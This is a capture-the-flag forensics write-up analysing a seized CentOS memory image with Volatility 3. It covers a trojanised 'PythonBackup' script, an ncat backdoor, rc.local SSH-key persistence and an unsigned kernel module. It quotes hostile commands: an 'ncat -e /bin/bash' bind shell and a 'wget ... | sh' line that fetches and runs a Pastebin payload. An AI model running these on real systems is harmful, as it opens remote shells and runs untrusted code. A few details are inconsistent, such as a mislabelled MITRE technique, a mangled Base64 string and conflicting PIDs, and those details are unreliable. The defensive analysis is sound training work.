# Seized Linux Host Memory Forensics — Investigating Persistence, Backdoors & Kernel Rootkit Activity

**Incident Type:** Linux Intrusion / Persistence, Backdoor & Kernel Module Investigation
**Date:** November 18, 2026
**Status:** Completed
**Environment:** CyberDefenders – *Seized Lab* (simulated SOC/IR exercise)

## Executive Summary

A seized Linux workstation memory image (`dump.mem`) was analyzed using **Volatility 3** and supporting forensic utilities to reconstruct attacker activity, identify persistence mechanisms and backdoors, inspect active network connections and shell/editor sessions, and examine loaded kernel modules and system call hooks.

Investigation confirmed the target system ran **CentOS Linux release 7.7.1908 (Core)** (`Linux 3.10.0-1062.el7.x86_64`, user `k3vin`). Command history and process/memory artifacts revealed that on `2020-05-07` the attacker cloned and executed `https://github.com/tw0phi/PythonBackup` (`PythonBackup.py`), staged a Base64 string in `y0ush0uldr34dth1s.txt` (`shkCTF{l3ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60}`), built and loaded **LiME** (`lime-3.10.0-1062.el7.x86_64.ko`) to acquire `Linux64.mem`, established a `ncat` bind/backdoor listener on TCP port `12345` (`PID 2854`, `ESTABLISHED` with `192.168.49.1:44122`), and modified `/etc/rc.local` via `vim` (`PID 3196`) to append an SSH authorized key for `tw0phi@workstation` and a Base64-encoded flag (`shkCTF{rc.l0c4l_1s_funny_be2472cfaeed467ec9cab5b5a38e5fa0}`). Kernel analysis further identified an anomalous syscall `88` handler at `0xffffc0a12470` (`UNKNOWN` outside `0xfffffa...`) and an unsigned out-of-tree kernel module `sysemptyrect` (`0xffffc0a14020`, `OOT_MODULE,UNSIGNED_MODULE`) referencing `crc65_key` (`1337tibbartibbar`).

## Investigation Workflow

1. **OS & Environment Identification** – confirm the Linux distribution and kernel release (`CentOS 7.7.1908`, `3.10.0-1062.el7.x86_64`).
2. **Command Timeline & Acquisition Reconstruction** – trace `bash` commands from `2020-05-07` (`PythonBackup`, `LiME`, `/etc/rc.local`).
3. **Script & Staging Payload Analysis** – inspect `PythonBackup/app/snapshot.py`, `pastebin.com/raw/nQwMKjtZ`, and decode Base64 artifacts.
4. **Process Tree & Network Socket Triage** – trace `ncat` (`PID 2854`), spawned shells/`pty` sessions, `vim /etc/rc.local` (`PID 3196`), and active TCP sockets (`linux.sockstat.Sockstat`).
5. **Memory Dump & Persistence Artifact Extraction** – extract strings from process dump data (`3196.txt`) and decode the `/etc/rc.local` SSH key / Base64 payload.
6. **Kernel Syscall & Module Rootkit Triage** – check syscall table entries (`linux.check_syscall.txt`), inspect loaded modules (`linux.lsmod.Lsmod`), and search strings around `crc65_key`.
7. **Remediation** – remove backdoors/authorized keys, audit `/etc/rc.local`, unload/remove unauthorized kernel modules, and reimage the host.

---

## 1. System Identification — CentOS 7 (`3.10.0-1062.el7.x86_64`)

System and mount/release artifacts established the environment as **CentOS Linux release 7.7.1908 (Core)** running kernel **`3.10.0-1062.el7.x86_64`** (`x86_64`) under user `k3vin`:


*Figure 1 – System details showing `Linux 3.10.0-1062.el7.x86_64 CentOS Linux release 7.7.1908 (Core)` and `CentOS_7_x86_64` media/device references.*

---

## 2. Command Reconstruction — `PythonBackup`, `LiME` Memory Acquisition, and `/etc/rc.local`

Reconstructed command activity for `bash` (`PID 2622` and `PID 2887`) on `2020-05-07` captured the sequence of staging, memory dumping, and persistence editing:


*Figure 2 – Key commands on `2020-05-07`:*
- **`14:56:17 UTC`** – writes Base64 string `c2hrQ1RGe2wzCommands...` (`c2hrQ1RGe2wz+ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60=`) to `y0ush0uldr34dth1s.txt`.
- **`14:56:25`–`14:56:40 UTC`** – clones `https://github.com/tw0phi/PythonBackup`, unzips `PythonBackup.zip`, and runs `sudo python PythonBackup.py`.
- **`15:00:15`–`15:00:37 UTC`** – clones `https://github.com/504ensicsLabs/LiME`, compiles it (`make`), and loads `lime-3.10.0-1062.el7.x86_64.ko` via `sudo insmod` to dump `Linux64.mem` in `lime` format.
- **`14:59:42 UTC`** – edits `/etc/rc.local` using `vim` (`PID 2887`).

Decoding the Base64 string from `y0ush0uldr34dth1s.txt` in CyberChef revealed:


*Figure 3 – Base64 decoding outputs **`shkCTF{l3ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60}`**.*

**Why this is dangerous:** Loading a custom/external kernel module (`LiME`) and modifying `/etc/rc.local` — a classic SysV/rc-local startup script on CentOS/RHEL — indicates deliberate interaction with kernel memory and boot-time execution.

---

## 3. Backdoor Listener & Remote Stager — `ncat` (`PID 2854`) and `snapshot.py`

Process inspection showed a `ncat` listener running under `PPID 1`:

*Figure 4 – `PID 2854` (`PPID 1`) executing `ncat -lvp 12345 -4 -e /bin/bash`.*

In `PythonBackup/app/snapshot.py` (line containing `os.system`), the script fetched and piped a remote Pastebin payload directly into `/bin/sh`:


*Figure 5 – `os.system('wget -O - https://pastebin.com/raw/nQwMKjtZ 2>/dev/null|sh')`.*

Inspecting `https://pastebin.com/raw/nQwMKjtZ` showed the staged command and Base64 token:


*Figure 6 – Pastebin output includes `### Congratz : c2hrQ1RGe3RoNHRfdzXzRfZHVTtyI9iNGNrZDAcl84NjAzM2xOWUzZjM5MzE1YzAwZGNhfQo=` and `nohup ncat -lvp 12345 -4 -e /bin/bash > /dev/null 2>/dev/null &`.*

Checking active sockets with Volatility 3's `linux.sockstat.Sockstat` confirmed an established TCP connection on port `12345` for `ncat` (`PID 2854`):


*Figure 7 – `ncat` (`PID 2854`) has an `ESTABLISHED` IPv4 TCP socket between `192.168.49.135:12345` and `192.168.49.1:44122`.*

**Why this is dangerous:** `ncat ... -e /bin/bash` exposes an interactive shell over TCP port `12345`, and piping remote content from Pastebin via `wget ... | sh` executes unverified external commands directly.

---

## 4. Process Chain & `/etc/rc.local` Persistence — `PID 3196` (`vim /etc/rc.local`)

Tracing child processes from `ncat` (`PID 2854`) and `bash` (`PID 2876`) with `linux.psaux.PsAux` showed an interactive PTY shell and `vim /etc/rc.local` (`PID 3196`, `PPID 2887`):


*Figure 8 – Process chain: `ncat` (`2854`) → `bash` (`2876`) → `python -c import pty; pty.spawn("/bin/bash")` (`2886`) → `bash` (`2887`) → `vim /etc/rc.local` (`3196`).*

Extracting strings from `proc_dump/*` for PID `3196` into `3196.txt` recovered the script content appended to `/etc/rc.local`, adding an SSH public key for `tw0phi@workstation` to `/home/k3vin/.ssh/authorized_keys` along with a Base64-encoded comment:


*Figure 9 – Recovered script snippet appending `ssh-rsa AAAAB3NzaC1yc2EAAAABIwABAQCa8zsybVEoajgtqcik2XAs1UwNaEv3RcXacqicjzuad2jH7JQDiAqVW4jfEt8h7w+Reil kZL/xqikGS/Agb2ZLqVSUKWF9afaeE8500n4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJeSVzQbawFHD8B426qkFYD+LMAnnFtnrzFj8U+cewG60Dl00be8yP/Awv0HYFdhk/IY+t7u2Ywrp3bXF1l5m+Zk40BqpEYFfZhawY0c/tar1HqaJnYdvqHjhWzhEdGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAwGwyUORBWdJM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation` to `/home/k3vin/.ssh/authorized_keys` with `chmod 600`, plus Base64 string `c2hrQ1RGe3JjLmwweDRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwPQ==`.*

Decoding that Base64 string in CyberChef produced:


*Figure 10 – Base64 decoding outputs **`shkCTF{rc.l0c4l_1s_funny_be2472cfaeed467ec9cab5b5a38e5fa0}`**.*

**Why this is dangerous:** Injecting an attacker's SSH public key (`tw0phi@workstation`) into `~/.ssh/authorized_keys` via a startup script (`/etc/rc.local`) provides persistent, key-based remote access across reboots.

---

## 5. Kernel Syscall & Module Triage — `0xffffc0a12470`, `sysemptyrect`, and `crc65_key`

Auditing the syscall table (`linux.check_syscall.txt`) for entries outside the expected `0xfffffa...` kernel range flagged syscall `88`:


*Figure 11 – `awk '$4 !~ /0xfffffa/' linux.check_syscall.txt` reports `0xffff81802cc0  64bit  88  0xffffc0a12470  UNKNOWN`.*

Listing loaded kernel modules with `linux.lsmod.Lsmod` showed both `lime` (`0xfffffc09c7020`) and an unsigned out-of-tree module `sysemptyrect` (`0xffffc0a14020`, `OOT_MODULE,UNSIGNED_MODULE`, `crc65_key= N/A`):


*Figure 12 – `sysemptyrect` (`0xffffc0a14020`, size `0x3268`) is flagged as `OOT_MODULE,UNSIGNED_MODULE` with `crc65_key=`.*

Searching strings in `dump.mem` around `"crc65_key"` surfaced references to `1337tibbartibbar`, `6CRC65: rdy to encrypt stuff!`, and `6CRC65: Goodbye my friend!`:


*Figure 13 – Context around `crc65_key` includes `1337tibbartibbar` and `6CRC65: rdy to encrypt stuff!`.*

**Why this is dangerous:** An `UNKNOWN` syscall handler outside expected kernel text alongside an unsigned out-of-tree module (`sysemptyrect`) and encryption/key strings (`crc65_key`) indicates kernel-level tampering / rootkit functionality that requires full host containment and rebuild.

---

## 6. Investigation Summary

| Artifact | Finding |
|----------|---------|
| Target OS & Kernel | CentOS Linux release 7.7.1908 (Core), `Linux 3.10.0-1062.el7.x86_64` (`x86_64`), user `k3vin` |
| Staged Tooling & Memory Dump | `tw0phi/PythonBackup` (`snapshot.py` → `pastebin.com/raw/nQwMKjtZ`), `504ensicsLabs/LiME` (`lime-3.10.0-1062.el7.x86_64.ko` → `Linux64.mem`) |
| Backdoor Listener & Socket | `ncat -lvp 12345 -4 -e /bin/bash` (`PID 2854`, `PPID 1`), `ESTABLISHED` (`192.168.49.135:12345` ↔ `192.168.49.1:44122`) |
| Persistence Artifact | `/etc/rc.local` edited via `vim` (`PID 3196`), appending SSH key for `tw0phi@workstation` to `/home/k3vin/.ssh/authorized_keys` |
| Kernel Anomalies | Syscall `88` → `0xffffc0a12470` (`UNKNOWN`), module `sysemptyrect` (`0xffffc0a14020`, `OOT_MODULE,UNSIGNED_MODULE`), `crc65_key` / `1337tibbartibbar` |

## Indicators of Compromise

| Type | Value |
|------|-------|
| Malicious Command / Listener | `ncat -lvp 12345 -4 -e /bin/bash` (`PID 2854`), active TCP `192.168.49.135:12345` ↔ `192.168.49.1:44122` |
| Stager URL | `https://pastebin.com/raw/nQwMKjtZ` |
| Persistence Target | `/etc/rc.local` and `/home/k3vin/.ssh/authorized_keys` (SSH key for `tw0phi@workstation`) |
| Kernel Module & Syscall Target | `sysemptyrect` (`0xffffc0a14020`), syscall `88` handler `0xffffc0a12470` |
| String / Key Reference | `crc65_key`, `1337tibbartibbar`, `y0ush0uldr34dth1s.txt` |

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|----|-------------|
| Boot or Logon Initialization Scripts: RC Scripts | T1037.004 | Persistence configured via `/etc/rc.local` to add an authorized SSH key and execute startup actions. |
| Account Access Removal / SSH Authorized Keys | T1098.004 | Appended attacker SSH public key (`tw0phi@workstation`) to `/home/k3vin/.ssh/authorized_keys`. |
| Ingress Tool Transfer | T1105 | Downloaded tools/scripts (`PythonBackup`, `LiME`, and Pastebin payload `nQwMKjtZ`). |
| Rootkit | T1014 | Unhooked/anomalous syscall `88` (`0xffffc0a12470`) and unsigned kernel module `sysemptyrect` (`0xffffc0a14020`). |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | Shell/PTY sessions (`bash`, `ncat -e /bin/bash`, `wget ... | sh`) used during intrusion. |

## Remediation & Lessons Learned

1. **Containment and full host rebuild** — because kernel structures, syscalls (`88` → `0xffffc0a12470`), and unsigned modules (`sysemptyrect`) were altered, treat the host as untrusted and reimage from clean media after preserving forensic evidence.
2. **Audit SSH keys, startup scripts, and open listeners** — inspect `/home/k3vin/.ssh/authorized_keys`, `/etc/rc.local`, and active sockets (`ss -tulpn` / `linux.sockstat.Sockstat`) for unauthorized keys or listeners such as TCP `12345`.
3. **Monitor kernel module loads and syscall integrity** — alert on `insmod`/out-of-tree unsigned kernel modules (`OOT_MODULE,UNSIGNED_MODULE`) and syscall table modifications.
